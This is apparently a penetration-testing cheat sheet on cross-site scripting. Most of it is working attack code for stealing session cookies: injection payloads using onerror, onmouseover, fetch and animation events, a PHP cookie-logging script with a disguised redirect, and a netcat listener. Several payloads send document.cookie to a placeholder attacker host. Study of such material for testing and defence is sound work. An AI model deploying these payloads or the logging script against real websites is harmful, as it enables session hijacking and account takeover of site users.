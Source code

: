 # Cross-Site Scripting (XSS)
***
### In order to leverage a XSS attack to result in session cookie leakage the Session cookies should be:
* Carried in all HTTP requests
* Accessible by JavaScript code (Without the HTTPOnly attribute)

#### When working with input fields we should use payloads with event handlers such as `onload` or `onerror` as they prove the highest impact on stored XSS cases. When they are filtered the `onmouseover` may work.
```javascript
"><img src=x onerror=prompt(document.domain)>
```

#### `document.domain` is commonly used to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment.

#### More payloads that can be used in input fields
```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

#### Then before trying to obtain a session cookie through XSS we check if the HTTPOnly is off

### Obtaining session cookies through XSS
#### First we would need to create a cookie-logging script
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c00k1e"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.youtube.com/");
exit;
?>
```

#### Then run it
```bash
$ php -S <VPN/TUN IP>:8000
```

#### This would be our payload for the input field
```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN IP>:8000/notMalware.php?c00k1e=' + document.cookie;"></video>
```

#### In a real world testing we could use [XSSHunter](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/).

#### Example of a payload using HTTPS:
```javascript
<h1 onmouseover='document.write(`<img src="https://LINK?c00k1e=${btoa(document.cookie)}">`)'>test</h1>
```


### Obtaining session cookies via XSS using Netcat
#### Payload
```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN IP>:8000?c00k1e=${btoa(document.cookie)}">`)'>test</h1>
```
#### Netcat 
```bash
$ nc -nlvp 8000
```
#### When using base64 encoding we can then decode the result directly in the Dev Console by using the `atob()` function.

#### Another interesting payload but without redirection
```javascript
<script>fetch(`http://<VPN/TUN IP>:8000?c00k1e=${btoa(document.cookie)}`)</script>
```

